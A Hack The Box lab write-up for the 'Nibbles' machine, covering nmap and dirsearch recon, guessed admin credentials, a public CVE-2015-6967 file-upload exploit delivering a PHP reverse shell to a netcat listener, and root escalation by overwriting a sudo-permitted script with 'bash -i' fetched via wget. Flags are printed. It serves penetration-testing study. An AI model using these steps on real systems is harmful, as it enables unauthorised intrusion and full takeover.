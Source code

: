 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Nibbles
tags: []
---
```

**Start 17:52 24-08**

---
```
10.10.10.75
```
## Recon

==Nmap==
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -p1-100 10.10.10.75      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 16:52 IST
Nmap scan report for 10.10.10.75
Host is up (0.087s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.85 seconds
```

I added the webserver to my `/etc/hosts` under `nibbles.htb` and went searching.

## 80/TCP - HTTP

![](../../../assets/46ccb73fc59b7af149b0fd4bafeec9c7.png)

This is the only thing that popped up, but when I viewed the page source I found another sub-directory:

![](../../../assets/a1469add23361ef758f6e66548d8eb3a.png)

So I went to that endpoint to check it out.

![](../../../assets/9c2e87846cfe0cd7a5dfe73cc8e6af21.png)


==Dirsearch==
After finding this sub-directory I decided to enumerate further using `dirsearch`, here I got the following output:

```bash
└─$ dirsearch -u http://nibbles.htb/nibbleblog/ -x 403,404,400
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: 

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11460

[17:01:55] Starting: nibbleblog/
[17:02:07] 301 -  321B  - /nibbleblog/admin  ->  http://nibbles.htb/nibbleblog/admin/
[17:02:07] 200 -  606B  - /nibbleblog/admin.php                             
[17:02:07] 200 -  516B  - /nibbleblog/admin/                                
[17:02:08] 301 -  332B  - /nibbleblog/admin/js/tinymce  ->  http://nibbles.htb/nibbleblog/admin/js/tinymce/
[17:02:08] 200 -  563B  - /nibbleblog/admin/js/tinymce/
[17:02:19] 200 -  485B  - /nibbleblog/content/                              
[17:02:19] 301 -  323B  - /nibbleblog/content  ->  http://nibbles.htb/nibbleblog/content/
[17:02:19] 200 -  724B  - /nibbleblog/COPYRIGHT.txt                         
[17:02:29] 200 -   92B  - /nibbleblog/install.php                           
[17:02:29] 200 -   92B  - /nibbleblog/install.php?profile=default           
[17:02:30] 301 -  325B  - /nibbleblog/languages  ->  http://nibbles.htb/nibbleblog/languages/
[17:02:31] 200 -   12KB - /nibbleblog/LICENSE.txt                           
[17:02:42] 301 -  323B  - /nibbleblog/plugins  ->  http://nibbles.htb/nibbleblog/plugins/
[17:02:42] 200 -  694B  - /nibbleblog/plugins/
[17:02:45] 200 -    5KB - /nibbleblog/README                                
[17:02:53] 301 -  322B  - /nibbleblog/themes  ->  http://nibbles.htb/nibbleblog/themes/
[17:02:53] 200 -  498B  - /nibbleblog/themes/                               
[17:02:54] 200 -  815B  - /nibbleblog/update.php
```

Right away I noticed that on `/admin` there was a login screen but what was more interesting to me was the `README` endpoint:

![](../../../assets/2d8d76b4e9f1ca4a581e7333fb4d9753.png)

When I enumerated the directories further I got some other endpoints which I could check out:

```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://nibbles.htb/nibbleblog/content/ -x 403,404,400
  _|. _ _  _  _  _ _|_    v0.4.3                                                 
 (_||| _) (/_(_|| (_| )               
  
Target: http://nibbles.htb/

[17:14:17] Starting: nibbleblog/content/                                          
[17:15:01] 301 -  331B  - /nibbleblog/content/private  ->  http://nibbles.htb/nibbleblog/content/private/
[17:15:01] 301 -  330B  - /nibbleblog/content/public  ->  http://nibbles.htb/nibbleblog/content/public/
[17:15:01] 200 -  504B  - /nibbleblog/content/public/                       
[17:15:10] 200 -  412B  - /nibbleblog/content/tmp/                          
[17:15:10] 301 -  327B  - /nibbleblog/content/tmp  ->  http://nibbles.htb/nibbleblog/content/tmp/

Task Completed  
```

![](../../../assets/ca33fa45010e49ff5d413d21e0d29643.png)

I then went to the `/nibbleblog/content/private/users.xml` directory and found this:

![](../../../assets/f0117fa137f3723aefcfc8190d8f6a6b.png)

By random guesswork I found the credentials to be `admin - nibbles`.

## Manual Exploitation

==CVE-2015-6967==
Using the following [Google Dork](Google%20Dorking.md) I was able to find an [Arbitrary File Upload](https://github.com/dix0nym/CVE-2015-6967) exploit for this version:

```bash
# Google Dork
site:github.com CVE-2015 Nibbleblog 4.0.3
```

![](../../../assets/701318043c94c9eb07d565da45db06d5.png)

I then downloaded the exploit, set up my `php reverse shell` and a listener, and then run the exploit:

![](../../../assets/7be0b622165f9be3dd82cfd01488db54.png)

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234                                 
listening on [any] 1234 ...
```

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
[+] Login Successful.
[+] Upload likely successfull.
```

And we see a shell return:

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234                                 
listening on [any] 1234 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.75] 37790
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 13:00:06 up  5:26,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
$
```

Before continuing on I stabilize the shell:

```bash
$ script /dev/null -c bash
Script started, file is /dev/null
nibbler@Nibbles:/$ 
```


==user.txt==
As the `nibbler` user we go to `/home/nibbler` where we find the first flag:

```bash
nibbler@Nibbles:/home/nibbler$ cat user.txt
cat user.txt
f5c92f5e72ffd933e8c45a46b109cc5b
```


## Privilege Escalation

I run `sudo -l` to gather `OS info` and find the following:

```bash
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Apparently we can run `/monitor.sh` as `root`!
In order to get to the file I `unzipped` the `personal.zip` folder and moved towards the `monitor.sh` file where we apparently have full `RWX` permissions:

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

This  means we can just go ahead and modify the file to our content. I decided to go ahead and `rm` the `monitor.sh` file and instead make my own super simple file and upload it using `wget`.

```bash
# monitor.sh

bash -i
```

```bash
chmod +x monitor.sh
```

I then started up a `python` server:

```bash
python3 -m http.server 80
```

And on the target machine executed the following command:

```bash
wget http://10.10.14.5/monitor.sh
```

![](../../../assets/50d84f269373015dc2080b8d586b0c1a.png)

I had to `chmod +x` the file again for some reason:

![](../../../assets/1fd7588a5c6215426f5857adb9c94ef6.png)

From here it's easy peasy:

```bash
root@Nibbles:/home/nibbler/personal/stuff# cat /root/root.txt
cat /root/root.txt
b58405fd17f79892e84c03ecbbc1925b
```


![](../../../assets/1a7392fba6c693773421a7e6794360c3.png)

---

**Finished 19:16 24-08**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
